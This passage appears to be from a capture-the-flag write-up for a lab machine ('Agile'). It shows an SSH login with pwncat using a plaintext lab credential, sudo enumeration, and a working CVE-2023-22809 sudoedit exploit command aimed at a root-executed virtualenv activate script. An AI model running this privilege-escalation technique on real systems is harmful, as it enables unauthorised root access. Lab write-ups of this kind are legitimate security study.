 {% code overflow="wrap" %}
```apacheconf
msplmee@kali:~$ pwncat-cs ssh://edwards:d07867c6267dcb5df0af@superpass.htb                  
[06:12:34] Welcome to pwncat 🐈!                                              
[06:12:36] superpass.htb:22: registered new host w/ db                     
(local) pwncat$                                                                              
(remote) edwards@agile:/home/edwards$ id
uid=1002(edwards) gid=1002(edwards) groups=1002(edwards)
```
{% endcode %}

## Shell as root

I can run `sudoedit` for or the "config\_test.json" file and "creds.txt" file as dev\_admin.

```apacheconf
edwards@agile:/$ sudo -l
[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

The sudo version is older than `1.9.12p2`, so sudoedit is vulnerable to `CVE-2023-22809`. To exploit this vulnerability, I require a file that the `dev_admin` can create, and root can execute.

```apacheconf
edwards@agile:/$ sudo -V
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9
```

I run`pspy64` to check any processes that are run by root and found that the `/app/venv/bin/activate` run by root and owned by the dev\_admin group.

```
edwards@agile:/$ ls -l /app/venv/bin/activate
-rw-rw-r-- 1 root dev_admin 1976 Aug  9 10:24 /app/venv/bin/activate
```

Exploit `CVE-2023-22809`

{% code overflow="wrap" %}
```apacheconf
edwards@agile:/$ EDITOR="vim -- /app/venv/bin/activate" sudo -u dev_admin sudoedit /app/config_test.json
```
{% endcode %}
